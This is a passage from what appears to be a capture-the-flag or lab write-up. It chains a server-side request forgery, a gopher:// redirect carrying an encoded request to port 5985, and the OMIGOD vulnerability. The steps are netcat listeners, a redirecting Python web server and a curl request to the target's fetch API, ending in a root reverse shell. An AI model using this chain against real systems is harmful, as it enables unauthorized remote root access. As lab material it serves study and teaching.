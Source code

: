 Modifying payload in _web-server.py_ to include the URL-encoded HTTP request:
```python
# (...)
self.send_header("Location", 'gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61(...)')
# (...)
```

Starting all listeners:
```
nc -lvnp 443 --ssl

python3 web-server.py

nc -lvnp 9001
```

Sending the request to the API:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443' -H 'accept: application/json' | jq
```

After sending the request, the exploit chain will be successful and exploit the **OMIGOD** vulnerability to spawn a reverse shell as root!
